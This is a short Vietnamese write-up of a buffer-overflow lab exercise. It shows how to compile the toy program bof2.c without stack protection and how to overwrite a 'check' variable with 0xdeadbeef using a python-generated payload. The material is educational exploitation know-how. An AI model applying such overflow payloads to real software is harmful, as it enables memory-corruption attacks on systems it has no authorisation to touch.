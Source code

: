 ### Chi tiết Buffer-overflow trên file bof2.c
***
#### Mục đích của bài này là dùng buffer-overflow để đổi giá trị của biến 'check' thành 0xdeadbeef
Xem qua code ta có thể thấy lỗ hỏng nó đến từ hàm fget(buf, 45, stdin). Vì vậy ta sẽ dùng buffer-overflow để làm tràn biến buf xuống phần của biến check và cái phần được tràn vào biến check sẽ là giá trị 0xdeadbeef

![image](https://github.com/user-attachments/assets/363d2764-dee7-4b4c-895e-db767115cba4)

***
#### Các bước thực hiện
* Bước 1: Biên dịch file
  ```
  gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2
  ```
* Bước 2: Điểm qua stackframe

  
  ![image](https://github.com/user-attachments/assets/72d3f459-132e-4053-b7fd-f4ebdea0f608)




  ta thấy mảng buf chứa tối đa 40 bytes nên ta cần truyền vào input 40 kí tự ngẫu nhiên và truyền thêm 4 bytes giá trị 0xdeadbeef nữa để đè lên giá trị hiện tại của biến check là ta có thể thay đổi thành giá trị mới 
* Bước 3: Thực hiện truyền input
  ```
  echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out
  ```
  Kết quả:
  ![image](https://github.com/user-attachments/assets/d02baa67-03e4-494b-ad39-37fa0634c695)


  => Thành công
